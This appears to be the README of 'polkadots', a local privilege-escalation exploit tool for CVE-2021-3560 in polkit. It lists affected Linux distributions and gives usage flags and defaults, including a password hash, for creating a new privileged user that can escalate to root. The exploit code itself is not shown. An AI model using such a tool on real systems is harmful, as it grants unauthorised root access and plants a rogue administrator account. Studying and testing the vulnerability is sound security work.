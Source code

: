 # polkadots
## CVE-2021-3560 Local PrivEsc Exploit

##### This exploit creates a new privileged user with which you can escalate to root.
\
Affected Distributions:
* RHEL 8
* Fedora 21
* Debian testing (Bullseye)
* Ubuntu 20.04

### Usage

    ./polkadots -a [Account] -n [Account name] -h [Password hash] -i [iterations]
		     Generate hashed passwords with: openssl passwd -6 password@123

    Defaults:
        -a boris
        -n Boris Ivanovich Grishenko
        -h $6$cGKhfu9znRnOQV1h$2j/3WKyqTcCaftP1PGhW8Pghj2qV5j8zwy1gHrt9eILUE6WKeWVCTa9QgkskIfwVXpjVI.TuX2D.rEkbwKubi/
        -i 20
  
#### Discovered By: Kevin Backhouse
#### Source: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
